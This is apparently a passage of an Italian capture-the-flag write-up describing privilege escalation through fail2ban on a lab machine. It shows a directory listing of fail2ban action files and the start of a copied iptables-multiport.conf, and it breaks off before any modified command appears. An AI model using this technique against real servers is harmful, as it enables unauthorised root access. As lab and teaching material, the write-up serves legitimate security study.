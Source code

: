 Cercando su Google, ho trovato un [articolo](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/) nella quale spiega come sfruttare tale errore per fare privilege.

Effettuiamo tutti i passaggi descritti:

```shell
michael@trick:/etc/fail2ban/action.d$ ls                                                                           
abuseipdb.conf                 iptables-allports.conf               npf.conf                                       
apf.conf                       iptables-common.conf                 nsupdate.conf                                  
badips.conf                    iptables.conf                        osx-afctl.conf                                 
badips.py                      iptables-ipset-proto4.conf           osx-ipfw.conf                                  
blocklist_de.conf              iptables-ipset-proto6-allports.conf  pf.conf                                        
bsd-ipfw.conf                  iptables-ipset-proto6.conf           route.conf                                     
cloudflare.conf                iptables-multiport.conf              sendmail-buffered.conf                         
complain.conf                  iptables-multiport-log.conf          sendmail-common.conf                           
dshield.conf                   iptables-new.conf                    sendmail.conf
dummy.conf                     iptables-xt_recent-echo.conf         sendmail-geoip-lines.conf
firewallcmd-allports.conf      mail-buffered.conf                   sendmail-whois.conf
firewallcmd-common.conf        mail.conf                            sendmail-whois-ipjailmatches.conf
firewallcmd-ipset.conf         mail-whois-common.conf               sendmail-whois-ipmatches.conf
firewallcmd-multiport.conf     mail-whois.conf                      sendmail-whois-lines.conf
firewallcmd-new.conf           mail-whois-lines.conf                sendmail-whois-matches.conf
firewallcmd-rich-logging.conf  mynetwatchman.conf                   shorewall.conf
firewallcmd-rich-rules.conf    netscaler.conf                       shorewall-ipset-proto6.conf
helpers-common.conf            nftables-allports.conf               smtp.py
hostsdeny.conf                 nftables-common.conf                 symbiosis-blacklist-allports.conf
ipfilter.conf                  nftables-multiport.conf              ufw.conf
ipfw.conf                      nginx-block-map.conf                 xarf-login-attack.conf
```

```shell
michael@trick:/etc/fail2ban/action.d$ ls iptables-multiport*
iptables-multiport.conf  iptables-multiport-log.conf
```

In */dev/shm* creiamo il file *iptables-multiport.conf* così modificato:

```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
```